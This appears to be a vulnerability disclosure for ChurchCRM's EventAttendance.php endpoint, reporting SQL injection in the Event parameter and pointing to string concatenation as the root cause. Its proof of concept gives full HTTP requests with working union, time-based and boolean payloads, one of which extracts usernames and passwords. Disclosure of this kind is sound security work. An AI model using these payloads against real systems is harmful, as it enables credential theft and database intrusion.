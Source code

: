# Description
The endpoint **/EventAttendance.php** is vulnerable to Union-based and Blind SQL Injection (Boolean & Time-based) via the **Event** GET parameter. 

This endpoint can be triggered through the following menu: Events - Event Attendance Reports - Church Service/Sunday School. The Event Parameter is taken directly from the query string and passed into the SQL query without any sanitization or input escaping. This allows the attacker to inject malicious Event payloads to execute the malicious SQL query.


# Proof of Concept

1. Retrieving the username & password from user_usr table through **Union-based SQL Injection**.

**Affected Parameter**: Event

**Payload**: SELECT 1,NULL,CONCAT(usr_Username,':',usr_Password),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL from user_usr-- -


```
GET /churchcrm/EventAttendance.php?Action=List&Event=2+UNION+ALL+SELECT+1,NULL,CONCAT(usr_Username,':',usr_Password),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL+from+user_usr--+-&Type=Sunday%20School HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost:8888/churchcrm/EventAttendance.php
Cookie: CRM-2c90cf299230a50dab55aee824ed9b08=epssb3ek27omiaeu1ovnjuuaka
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

```

![image](https://drive.google.com/uc?export=view&id=1IzY7UChBtUnl-4UBcO343TUvKhCh7UC3)



2. Triggering response delays with MySQL sleep function through **Time-based SQL Injection**.

**Affected Parameter**: Event

**Payload**: 2 OR SLEEP(5)-- -

```
GET /churchcrm/EventAttendance.php?Action=List&Event=2+OR+SLEEP(5)--+-&Type=Sunday%20School HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost:8888/churchcrm/EventAttendance.php
Cookie: CRM-2c90cf299230a50dab55aee824ed9b08=epssb3ek27omiaeu1ovnjuuaka
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

```

![image](https://drive.google.com/uc?export=view&id=1_fug3-M-XnEu7mD2eAc9qCVMOPUKxg2N)


3. Conditional Response with TRUE and FALSE conditions through **Boolean-based SQL Injection**.

**Affected Parameter**: Event

**TRUE Payload**: 99 OR 1=1-- -

**FALSE Payload**: 99 OR 1=2-- -

True Payload will show all events regardless the wrong event id submitted
```
GET /churchcrm/EventAttendance.php?Action=List&Event=99+OR+1%3d1--+-&Type=Sunday%20School HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost:8888/churchcrm/EventAttendance.php
Cookie: CRM-2c90cf299230a50dab55aee824ed9b08=epssb3ek27omiaeu1ovnjuuaka
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

```

![image](https://drive.google.com/uc?export=view&id=1EIaib9DQwM4kfNLDmKLUVegXxhiPjcXB)


False Payload will not show any events

```
GET /churchcrm/EventAttendance.php?Action=List&Event=99+OR+1%3d2--+-&Type=Sunday%20School HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost:8888/churchcrm/EventAttendance.php
Cookie: CRM-2c90cf299230a50dab55aee824ed9b08=epssb3ek27omiaeu1ovnjuuaka
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

```

![image](https://drive.google.com/uc?export=view&id=1sdP1a2NaemtDxIy2Zntw2ziSJ-CezSn3)

# Root Cause
User input on the Event parameter is not sanitized and used directly in the query through string concatenation.
https://github.com/ChurchCRM/CRM/blob/master/src/EventAttendance.php#L53
